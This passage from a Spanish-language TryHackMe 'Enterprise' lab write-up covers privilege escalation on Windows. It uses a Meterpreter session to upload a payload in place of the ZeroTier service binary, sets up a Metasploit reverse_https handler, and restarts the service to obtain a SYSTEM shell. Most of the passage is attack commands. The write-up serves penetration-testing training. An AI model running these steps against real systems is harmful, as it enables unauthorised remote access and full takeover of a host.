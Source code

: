 Ahora vamos a transferirlo al equipo objetivo. Como tenemos una sesión de tipo Meterpreter,podemos tirar del siguiente comando, más cómodo 

```
upload /home/shenmue/Escritorio/TryHackme/Enterprise/exploits/Zero.exe "C:/Program Files (x86)/Zero Tier/Zero.exe"
```

![Imagen044](44.jpeg)

Tenemos nuestro Payload en el equipo objetivo. Ahora tenemos que iniciar el servicio y ponernos en escucha por Metasploit

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST [IPObjetivo]
set LPORT 443
run
```

Y por último, en el equipo Windows, ejecutamos estos comandos 

```
sc start "zerotieroneservice"
Stop-Service -name "zerotieroneservice"
Start-Service -name "zerotieroneservice"
```

Simplemente lo que hemos hecho, es iniciar, detener y volver a iniciar el servicio ZeroTier. Si volvemos a nuestra sesión de Metasploit, obtendremos una sesión Meterpreter como el usuario NT AUTHORITY\SYSTEM

![Imagen045](45.jpeg)
